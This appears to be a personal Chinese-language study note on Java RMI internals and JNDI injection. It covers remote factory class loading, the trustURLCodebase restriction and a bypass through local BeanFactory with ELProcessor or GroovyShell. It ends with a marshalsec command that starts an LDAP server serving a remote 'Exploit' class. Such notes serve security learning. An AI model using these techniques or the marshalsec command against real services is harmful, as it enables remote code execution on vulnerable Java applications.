



## RMI工作流程

rmi register是注册表，维护的是：（对象，工厂，远程地址）表

rmi客户端访问注册表，然后在本地检查有没有该对象，如果没有，去远程找（trustURLCodebase）


其中，调用远程方法其实是在远端执行，然后把结果返回给客户端


因为stub是一个proxy, 执行stub的方法时, 其实执行的是handler的invoke方法

具体执行过程是:

```
at sun.rmi.server.UnicastRef.invoke(UnicastRef.java:161)
at java.rmi.server.RemoteObjectInvocationHandler.invokeRemoteMethod(RemoteObjectInvocationHandler.java:227)
at java.rmi.server.RemoteObjectInvocationHandler.invoke(RemoteObjectInvocationHandler.java:179)
at com.sun.proxy.$Proxy0.sayHello(Unknown Source:-1)
at Client.main(Client.java:16)
```


其实是客户端往与服务端的连接中写入要执行的方法, 参数

然后执行conn.getInputStream(), 转服务端执行

服务端会执行到sun.rmi.server.UnicastServerRef#dispatch



服务端反序列化客户端传入的method和params, 执行代码, 然后将结果写入out中,转客户端

客户端反序列化服务端传回的结果. 结束

## RMI攻击手法

### RMI Remote Object

调用远程方法并得到结果, 涉及到两次反序列化, 分别是

1. 服务器反序列化参数
2. 客户端反序列化结果

**TODO**:
尝试实验, 看看具体如何攻击

### ByReference

客户端lookup，如果得到的是Reference对象, 会尝试获取工厂类



在javax.naming.spi.NamingManager#getObjectFactoryFromReference中
先尝试在本地中加载该工厂类，如果找不到，就在指定的远程中加载。


#### 利用点1

**TODO**: LDAP是否同样能加载任意类?

这时，如果这个工厂类是恶意类，在加载或实例化时，可以执行恶意代码。

在高版本jdk中，sink点com.sun.naming.internal.VersionHelper12#loadClass(java.lang.String, java.lang.String)中加上了条件


而默认情况下trustURLCodebase为false。所以上述方法无法再加载任意远程类。

#### 利用点2

虽然无法加载远程factory，但是可以从本地加载，也就是说我们可以指定任意的本地factory进行加载、实例化、然后执行`factory.getObjectInstance`

可用的factory:

1. org.apache.naming.factory.BeanFactory +
   (javax.el.ELProcessor#eval | groovy.lang.GroovyShell#evaluate)
2.

## 其他

### 导致jndi的lookup

LdapCtx.c_lookup()
ComponentContext.p_lookup()
PartialCompositeContext.lookup()
GenericURLContext.lookup()
ldapURLContext.lookup()
InitialContext.lookup()

### 启动ldap服务：

`java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://localhost:8888/#Exploit 9999`
Exploit类在8888端口的web服务目录下。
lookup`ldap://localhost:1389`触发
